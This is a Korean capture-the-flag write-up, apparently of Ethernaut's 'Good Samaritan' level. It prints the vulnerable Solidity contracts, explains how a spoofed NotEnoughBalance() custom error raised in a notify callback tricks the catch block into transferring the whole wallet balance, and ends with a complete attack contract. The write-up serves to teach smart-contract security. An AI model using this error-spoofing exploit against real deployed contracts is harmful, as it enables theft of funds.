

## 문제
### 지문
This instance represents a Good Samaritan that is wealthy and ready to donate some coins to anyone requesting it.
Would you be able to drain all the balance from his Wallet?
Things that might help:
Solidity Custom Errors
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns (bool enoughBalance) {
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10 ** 6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if (amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if (dest_.isContract()) {
                // notify contract
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if (msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```
## 배경지식
---
Solidity의 custom error는 `error NotEnoughBalance();`처럼 정의하고 `revert NotEnoughBalance();`로 발생시킬 수 있다. ABI 관점에서는 함수 호출처럼 error signature를 해싱한 selector가 revert data 앞에 들어간다.
인자가 없는 `NotEnoughBalance()`의 revert data는 사실상 `bytes4(keccak256("NotEnoughBalance()"))`이다. 이 이름은 컨트랙트별로 네임스페이스가 분리되어 검사되지 않는다. 즉 다른 컨트랙트가 같은 이름과 같은 인자 구조의 custom error를 revert하면, 바깥 컨트랙트는 같은 error로 오해할 수 있다.
---
`try wallet.donate10(msg.sender)`는 외부 호출이 성공하면 `try` 블록으로 가고, 호출 중 revert가 발생하면 `catch` 블록으로 간다. `catch (bytes memory err)`는 revert data를 그대로 받는다.
이 문제에서는 `catch`가 revert 이유를 다음처럼 직접 비교한다.
```solidity
keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)
```
이 방식으로는 실제로 `Wallet.donate10` 내부의 잔액 체크에서 발생한 에러인지, 수신자 컨트랙트가 의도적으로 같은 selector를 만들어낸 에러인지 구분하지 못한다.
---
`Coin.transfer`는 수신자가 컨트랙트인지 확인한 뒤 `notify(amount_)`를 호출한다.
```solidity
if (dest_.isContract()) {
    INotifyable(dest_).notify(amount_);
}
```
이 호출로 토큰을 받는 컨트랙트의 코드가 실행된다. 여기서 수신자 컨트랙트가 revert하면 `Coin.transfer` 전체가 revert되고, 그 revert는 `Wallet.donate10`을 거쳐 `GoodSamaritan.requestDonation`의 `catch`까지 전파된다.
## 문제 코드 분석
---
먼저 초기 상태와 목표를 보자.
```solidity
constructor(address wallet_) {
    // one million coins for Good Samaritan initially
    balances[wallet_] = 10 ** 6;
}
```
`Coin`은 생성될 때 `Wallet` 주소에 $`10^6`$ 개의 코인을 넣어둔다. 레벨의 목표는 이 `Wallet`이 가진 코인을 모두 빼내는 것이다.
일반적인 흐름대로라면 `requestDonation()`을 한 번 호출할 때마다 10개만 받을 수 있다. 단순 반복으로는 비효율적이므로 `transferRemainder`가 실행되도록 만들어야 한다.
---
이제 `requestDonation`의 분기를 보자.
```solidity
function requestDonation() external returns (bool enoughBalance) {
    try wallet.donate10(msg.sender) {
        return true;
    } catch (bytes memory err) {
        if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
            wallet.transferRemainder(msg.sender);
            return false;
        }
    }
}
```
`requestDonation`은 먼저 `wallet.donate10(msg.sender)`를 시도한다. 실패했을 때 revert data가 `NotEnoughBalance()`와 같으면, 지갑에 10개 미만만 남았다고 판단하고 `wallet.transferRemainder(msg.sender)`를 호출한다.
`GoodSamaritan`은 `NotEnoughBalance()`가 어디서 발생했는지 확인하지 않는다. `Wallet`의 실제 잔액 체크가 아니라 수신자 컨트랙트의 `notify`에서 같은 custom error를 발생시켜도 같은 분기로 들어간다.
---
다음으로 `donate10`과 `transferRemainder`를 보자.
```solidity
function donate10(address dest_) external onlyOwner {
    if (coin.balances(address(this)) < 10) {
        revert NotEnoughBalance();
    } else {
        coin.transfer(dest_, 10);
    }
}

function transferRemainder(address dest_) external onlyOwner {
    coin.transfer(dest_, coin.balances(address(this)));
}
```
`Wallet`의 `owner`는 `GoodSamaritan`이다. 사용자는 `Wallet`을 직접 호출할 수 없지만, `GoodSamaritan.requestDonation()`을 통해 `donate10`과 `transferRemainder`가 호출되도록 만들 수 있다.
`donate10`은 잔액이 10 이상이면 `coin.transfer(dest_, 10)`을 실행한다. 이 호출 중 공격 컨트랙트의 `notify(10)`이 호출되고, 여기서 `NotEnoughBalance()`로 revert하면 `donate10` 전체가 실패한다. 이때 앞에서 줄어든 10개 전송도 함께 롤백된다.
그 다음 `GoodSamaritan`의 `catch`가 이 revert를 지갑 잔액 부족으로 착각하고 `transferRemainder`를 실행한다. 이 두 번째 전송은 금액이 $`10^6`$ 이므로 공격 컨트랙트의 `notify`에서 revert하지 않게 만들면 전체 잔액을 받을 수 있다.
---
마지막으로 `notify`에서 에러를 만드는 흐름을 보자.
```solidity
if (dest_.isContract()) {
    INotifyable(dest_).notify(amount_);
}
```
공격 컨트랙트는 `INotifyable` 형태의 `notify(uint256 amount)`를 구현하면 된다. 첫 번째 `donate10` 경로에서는 `amount == 10`이므로 `NotEnoughBalance()`를 발생시킨다. 두 번째 `transferRemainder` 경로에서는 `amount`가 10보다 훨씬 크므로 revert하지 않는다.
즉 흐름은 이렇게 정리된다.
1. `requestDonation()` 호출
2. `donate10(attackContract)` 실행
3. `Coin.transfer(attackContract, 10)` 중 `notify(10)` 호출
4. 공격 컨트랙트가 `NotEnoughBalance()`로 revert
5. `requestDonation`의 `catch`가 `transferRemainder(attackContract)` 실행
6. `notify(1000000)`에서는 revert하지 않아 전체 잔액 수령
## 풀이
공격 컨트랙트에도 `Wallet.NotEnoughBalance()`와 같은 signature의 custom error를 정의한다. `GoodSamaritan`은 revert data의 hash만 비교하므로, `notify(10)`에서 같은 custom error를 발생시키면 진짜 잔액 부족 상황처럼 받아들인다.
다만 모든 `notify`에서 revert하면 `transferRemainder`로 잔액을 받을 때도 다시 실패한다. 그래서 `amount <= 10`일 때만 revert하고, 나머지 전송에서는 정상 종료하게 둔다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

interface IGoodSamaritan {
    function requestDonation() external returns (bool enoughBalance);
}

contract Attack {
    IGoodSamaritan goodsamaritan;
    error NotEnoughBalance();

    constructor(address _addr) {
        goodsamaritan = IGoodSamaritan(_addr);
    }

    function attack() public {
        goodsamaritan.requestDonation();
    }

    function notify(uint256 amount) external payable {
        if (amount <= 10) {
            revert NotEnoughBalance();
        }
    }
}
```

